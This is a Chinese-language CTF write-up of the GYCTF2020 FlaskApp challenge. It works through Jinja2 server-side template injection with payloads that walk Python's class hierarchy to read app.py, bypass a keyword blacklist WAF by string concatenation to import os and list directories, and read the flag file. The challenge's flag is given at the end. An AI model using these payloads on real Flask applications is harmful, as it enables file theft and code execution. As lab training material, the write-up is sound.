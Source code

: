 # [GYCTF2020]FlaskApp

[题目地址](https://buuoj.cn/challenges#[GYCTF2020]FlaskApp)

从这道题的[wp](https://blog.csdn.net/Alexhcf/article/details/108400293)发现了一个很不错的仓库。

网站一个大大的flask图标，flask=注入！先把白给的提示看了。

```html
<body>
    <div align="center">
        <h3>失败乃成功之母！！</h3>
        <!-- PIN --->
        <img src="/static/img/hint.png" height="450" width="600">
    </div>
</body>
```

想到flask的debug界面PIN码getshell。尝试让它报个错，加密页面不行，解密页面倒是很简单，输入个1就报错了。PIN码需要读取文件才能算出来，需要先找到注入点才行。加密界面输入`{{1+1}}`没东西；解密界面输`{{1+1}}`更是报错。正确的做法是在加密界面把`{{1+1}}`加密后，把得到的结果放入解密界面。

- e3sxKzF9fQ==

结果显示2，对头了。在之前的debug界面得知了脚本的名字`app.py`，读取一下看看有什么东西。当我用[这里](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---read-remote-file)的payload尝试读取时，发现报jinja2.exceptions.UndefinedError。看来不能无脑抄，要[学习](https://blog.csdn.net/weixin_44214568/article/details/124125565)一下jinja2的语法。

```
jinja2一共三种语法：
控制结构 {% %}
变量取值 {{ }}
注释 {# #}
jinja2的Python模板解释器在构建的时候考虑到了安全问题，删除了大部分敏感函数，相当于构建了一个沙箱环境。但是一些内置函数和属性还是依然可以使用，而Flask的SSTI就是利用这些内置函数和属性相互组建来达到调用函数的目的，从而绕过沙箱。

__class__         返回调用的参数类型
__bases__         返回基类列表
__mro__           此属性是在方法解析期间寻找基类时的参考类元组
__subclasses__()  返回子类的列表
__globals__       以字典的形式返回函数所在的全局命名空间所定义的全局变  量 与 func_globals 等价
__builtins__      内建模块的引用，在任何地方都是可见的(包括全局)，每个 Python 脚本都会自动加载，这个模块包括了很多强大的 built-in 函数，例如eval, exec, open等等
```

看来要换一个payload，跟着wp找到了[这个](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---remote-code-execution)。根据我们的情况改动后：

```python
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('app.py','r').read() }}{% endif %}{% endfor %}
```

[\_\_name__](https://www.zhihu.com/question/49136398)是Python的一个内置属性，分以下两种情况：

1. 若是在当前文件，\_\_name__ 是__main__。
2. 若是导入的文件，__name__是模块名

payload使用jinja2的语法，for语句是`{% 语句内容 %}{% endfor %}`，if语句相似，`{% if 判断条件 %}{语句内容}{% endif %}`。payload意思应该是，遍历`[].__class__.__base__.__subclasses__()`的内容到c中，如果c的`__name__`是catch_warnings，就利用`c.__init__.__globals__['__builtins__']`找到file类。使用open和read函数读取app.py。

- eyUgZm9yIGMgaW4gW10uX19jbGFzc19fLl9fYmFzZV9fLl9fc3ViY2xhc3Nlc19fKCkgJX17JSBpZiBjLl9fbmFtZV9fPT0nY2F0Y2hfd2FybmluZ3MnICV9e3sgYy5fX2luaXRfXy5fX2dsb2JhbHNfX1snX19idWlsdGluc19fJ10ub3BlbignYXBwLnB5JywncicpLnJlYWQoKSB9fXslIGVuZGlmICV9eyUgZW5kZm9yICV9

不知道为啥读取出来的文件无法用网站美化。还好wp直接给了最重要的waf函数。

```python
def waf(str): 
  black_list = [ &
    #34;flag&# 34;, & #34;os&# 34;, & #34;system&# 34;, &
    #34;popen&# 34;, & #34;import&# 34;, & #34;eval&# 34;, &
    #34;chr&# 34;, & #34;request&# 34;, & #34;subprocess&# 34;, &
    #34;commands&# 34;, & #34;socket&# 34;, & #34;hex&# 34;, &
    #34;base64&# 34;, & #34;*&# 34;, & #34;?&# 34;
]
  for x in black_list: 
    if x in str.lower(): 
      return 1
```

过滤方式是直接遍历黑名单，然后判断输入的str的小写是否在黑名单里。这种过滤就很没用，简单的一个拼接就绕过了。

```python
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__']['__imp'+'ort__']('o'+'s').listdir('/')}}{% endif %}{% endfor %}
```

`c.__init__.__globals__['__builtins__']['__imp'+'ort__']('o'+'s')`打开os模块并绕过过滤，此举是为了调用listdir函数。

- eyUgZm9yIGMgaW4gW10uX19jbGFzc19fLl9fYmFzZV9fLl9fc3ViY2xhc3Nlc19fKCkgJX17JSBpZiBjLl9fbmFtZV9fPT0nY2F0Y2hfd2FybmluZ3MnICV9e3sgYy5fX2luaXRfXy5fX2dsb2JhbHNfX1snX19idWlsdGluc19fJ11bJ19faW1wJysnb3J0X18nXSgnbycrJ3MnKS5saXN0ZGlyKCcvJyl9fXslIGVuZGlmICV9eyUgZW5kZm9yICV9

发现this_is_the_flag.txt。直接读取。

```python
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('/this_is_the_fl'+'ag.txt','r').read()}}{% endif %}{% endfor %}
```

- eyUgZm9yIGMgaW4gW10uX19jbGFzc19fLl9fYmFzZV9fLl9fc3ViY2xhc3Nlc19fKCkgJX17JSBpZiBjLl9fbmFtZV9fPT0nY2F0Y2hfd2FybmluZ3MnICV9e3sgYy5fX2luaXRfXy5fX2dsb2JhbHNfX1snX19idWlsdGluc19fJ10ub3BlbignL3RoaXNfaXNfdGhlX2ZsJysnYWcudHh0JywncicpLnJlYWQoKX19eyUgZW5kaWYgJX17JSBlbmRmb3IgJX0=

这些payload在没有wp的情况下都需要一个一个试。整体思路是通过`[]`,`''`等的`__class__`，`mro()`引出全部类的父类object，然后通过`__subclasses__()`引出有用的诸如file，os等模块执行命令注入或者读取。很多时候不知道哪一个才是，这就要慢慢试了。

这题的PIN码解法懒得看了。知道怎么读取flag文件后读取用户网卡那些文件就不难了，生成PIN码也就是一个脚本的事。

## Flag
> flag{9007496d-e6bd-4da8-9d38-fdf3dd19ad2b}